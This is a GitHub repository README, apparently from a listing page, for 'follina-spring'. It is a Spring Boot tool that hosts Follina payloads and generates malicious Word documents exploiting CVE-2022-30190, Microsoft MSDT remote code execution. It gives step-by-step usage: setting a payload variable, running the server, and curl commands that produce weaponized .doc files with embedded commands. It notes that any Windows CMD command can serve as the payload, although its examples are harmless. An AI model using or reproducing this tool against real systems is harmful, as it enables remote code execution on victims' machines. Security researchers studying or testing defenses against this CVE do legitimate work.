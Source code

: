 # follina-spring

Server to host/activate Follina payloads & generator of malicious Word documents exploiting the MS-MSDT protocol. (CVE-2022-30190)

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/dsibilio](https://github.com/dsibilio) |
| Url      | [https://github.com/dsibilio/follina-spring](https://github.com/dsibilio/follina-spring)                                               |
| Stars    | 3                                                          |
| License  | MIT License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2022-30190* cybersecurity* follina* infosec* java* mesdetty* ms-msdt* msdt* spring* spring-boot

</details>

## Readme

# Follina MS-MSDT exploitation with Spring Boot

This repository contains a simple **Spring Boot** application that acts both as a server to **host/activate Follina payloads**, and as a **generator for malicious Word documents** that are ready to be used as attack vectors to exploit [CVE-2022-30190](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-30190).

This vulnerability consists of **Remote Code Execution** through MSDT *(Microsoft Windows Support Diagnostic Tool)*.

## Server-Side Payload

In order to serve a unique payload of your choice, you should:

- define the **payload**, eg.:
```
export FOLLINA_PAYLOAD="notepad.exe"
```
- run the **server** to host the static payload:
```
mvn spring-boot:run
```
- generate the "Follina" **Word document**:
```
curl -s http://localhost:8080/generateDoc?address=http://192.168.64.128:8080 -o follina.doc
```

**If you'd like to change the current payload, you'd have to tear down the currently active server first**, and repeat the steps after defining the newer payload.

**NOTE:** the payload can be replaced with whatever other command, as long as it can be run via the Windows CMD.


## Client-Side Payload

In order to serve a client-side payload of your choice, you should:

- run the **server** to activate the payloads at runtime:
```
mvn spring-boot:run
```
- generate the "Follina" **Word document** specifying the `cmd` query parameter, eg.:
```
curl -sG http://localhost:8080/generateDoc --data-urlencode 'address=http://192.168.64.128:8080' --data-urlencode 'cmd=start msedge.exe https://www.youtube.com/watch?v=zqTwOoElxBA' -o follina.doc
```

**The payload in this case is embedded within the document**, and will simply need *activation* by contacting the server. In this way, you can have multiple different payloads spread over different documents and you won't have to reboot the server to trigger payload changes - as you can simply generate a new document with the desired payload embedded.

### Kudos
Many thanks to [John Hammond](https://github.com/JohnHammond/msdt-follina) for coming out with the Python implementation, and sharing his analysis of the CVE.



## Get the content

```
git clone https://github.com/dsibilio/follina-spring
cd follina-spring
```

{% embed url="https://github.com/dsibilio/follina-spring" %}

<figure><img src="https://avatars.githubusercontent.com/u/24280982?v=4" alt=""><figcaption><p>dsibilio</p></figcaption></figure>
